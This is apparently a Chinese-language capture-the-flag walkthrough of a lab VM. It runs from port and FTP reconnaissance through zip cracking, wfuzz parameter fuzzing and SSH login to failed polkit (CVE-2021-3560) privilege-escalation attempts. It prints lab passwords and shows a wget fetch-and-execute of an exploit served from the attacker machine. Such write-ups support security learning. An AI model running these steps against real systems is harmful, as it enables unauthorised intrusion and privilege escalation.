# 一、环境侦测
## 1.1 端口扫描


> **已知信息**
> 21端口：匿名登录漏洞：FTP code 230，直接用用户名`anonymous`或`ftp`就能登陆进去；敏感文件泄露：目录里有一个名为`respectmydrip.zip`的压缩包；权限过高：这个文件具有777权限
>
> 80端口：`robots.txt`暴露了两个被禁止爬取但对黑客公开的路径：`/dripisreal.txt`、`/etc/dripispowerful.html`；`Apache 2.4.41(Ubuntu)`版本旧，`searchsploit`或 CVE 数据库
>
> 22端口：有目标服务器的身份指纹`host key`，比如第一行：密钥长度`3072`bits(位)，密钥的十六进制指纹`9E:bb:...:28`，加密算法`RSA`
>
> ---
> **思路**
> $$\text{FTP 匿名登录} \longrightarrow \text{下载并解压 respectmydrip.zip} \longrightarrow \text{获取密码/密钥/线索}$$
>
> $$\text{结合 80 端口 robots.txt 泄露的信息} \longrightarrow \text{组合出有效的凭据 (Credential)}$$
>
> $$\text{通过 22 端口 (SSH) 登录系统} \longrightarrow \text{拿到初始 Shell} \longrightarrow \text{本地提权 (Privilege Escalation)}$$

## 1.2 80端口





根据`/dripisreal.txt`中的核心意思，数一数以`n`词出现了多少次，然后把它们排列放置后`md5sum`，就是ssh密码。（但巨繁琐，且不靠谱）

而`/etc/dripispowerful.html`打不开

## 1.3 21端口

`get respectmydrip.zip`后发现，里面有一个文件要密码，而解压出来的其中一个`secret.zip`文件也需要密码

# 二、渗透
## 2.1 压缩包爆破


获得`respectmydrip.zip`密码`072528035`
而`secret.zip`没有破解出来


`respectmydrip.txt`让人关注“drip”

## 2.2 `dripispowerful.html`

gobuster扫描`/etc`，结果什么都没有，因此尝试模糊扫描


```zsh
wfuzz -c -u http://192.168.203.141/?FUZZ=/etc/dripispowerful.html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt --hw 21
```

详情见[点击跳转wfuzz模糊测试](/docs/cybersecurity/kali_linux基操#wfuzz)


结果发现是`drip`这个参数，对应了压缩包爆破出来的内容


访问这个参数下的`/etc/dripispowerful.html`
> 获得密码`imdrippinbiatch`

## 2.3 针对新密码的尝试（ssh thugger用户）
`secret.zip`破解失败
`ssh thugger@192.168.203.141`，成功

获得第一个flag，`user.txt`

# 三、提权
根据[点击跳转提权思路](/docs/cybersecurity/kali_linux基操#privesc)

`sudo -l`没有权限
`find / -perm -u=s -type f 2>/dev/null`后发现`polkit`，存在可以利用漏洞的工具


``
[点击跳转searchsploit](/docs/cybersecurity/kali_linux基操#searchsploit)



```zsh
searchsploit polkit -w
searchsploit -m 50011
python3 -m http.server 80

# 目标靶机的ssh中
wget http://192.168.203.129/50011.sh -O polkit.sh

chmod +x polkit.sh
./polkit.sh
```

但是Exploit-DB的漏洞有问题，因此查找官网[CVE-2021-3560](https://github.com/Almorabea/Polkit-exploit/blob/main/CVE-2021-3560.py)
`python3 cve-2021-3560.py`
但是尝试了很多遍，漏洞也有问题
